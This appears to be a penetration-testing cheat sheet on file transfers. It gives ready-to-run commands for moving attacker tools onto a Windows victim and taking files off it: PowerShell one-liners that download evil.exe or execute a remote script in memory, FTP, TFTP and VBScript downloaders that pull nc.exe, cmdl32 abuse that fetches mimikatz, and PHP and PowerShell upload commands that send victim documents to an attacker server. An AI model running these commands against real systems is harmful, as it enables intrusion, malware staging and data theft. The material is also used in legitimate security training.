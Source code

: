 # File Transfers

## Download

### Powershell

```
# Simple one-liner
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://10.0.0.1/evil.exe', 'evil.exe')

# Execute powershell scripts without saving to disk
powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://10.0.0.1/evil.ps1')
```

### FTP

Use of embedded ftp client. Add -s option to give a file containing FTP commands:

```
echo open 10.0.0.1 21> ftp.txt
echo USER test>> ftp.txt
echo pwd>> ftp.txt
echo bin >> ftp.txt
echo GET nc.exe >> ftp.txt
echo bye >> ftp.txt
```

Execute:

```
ftp -v -n -s:ftp.txt
```

Server (Linux):

```
python -m pyftpdlib -p 21
```

### TFTP

```
tftp <IP> GET <file>
```

Server (Kali):

```
systemctl start atftpd
```

{% hint style="info" %}
Default dir: /srv/tftp
{% endhint %}

### VBScript

Simple HTTP downloader script:

```
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >>
wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >>
wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET", strURL, False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```

Execute:

```
cscript wget.vbs http://10.0.0.1/evil.exe evil.exe
```

### Exe2hex

```
# Attacker
upx -9 evil.exe
exe2hex -x evil.exe -p evil.cmd

# Victim -> copy/paste the content of evil.cmd in a shell
```

### Cmdl32

```
icacls %cd% /deny %username%:(OI)(CI)(DE,DC)
echo [Connection Manager] > settings.txt
echo CMSFile=settings.txt >> settings.txt
echo ServiceName=WindowsUpdate >> settings.txt
echo TunnelFile=settings.txt >> settings.txt
echo [Settings] >> settings.txt
echo UpdateUrl=http://attacker/mimikatz.exe >> settings.txt
cmdl32 /vpn /lan %cd%\settings.txt
icacls %cd% /remove:d %username%
move <tmp_filename>.tmp mimikatz.exe
```

## Upload

### Powershell

upload.php file on attacker:

```
<?php
$uploaddir = '/var/www/uploads/';
$uploadfile = $uploaddir . $_FILES['file']['name'];
move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)
?>
```



```
powershell (New-Object System.Net.WebClient).UploadFile('http://10.0.0.1/upload.php', 'doc.docx')
```

### TFTP

```
tftp -i 10.11.0.4 put important.docx
```
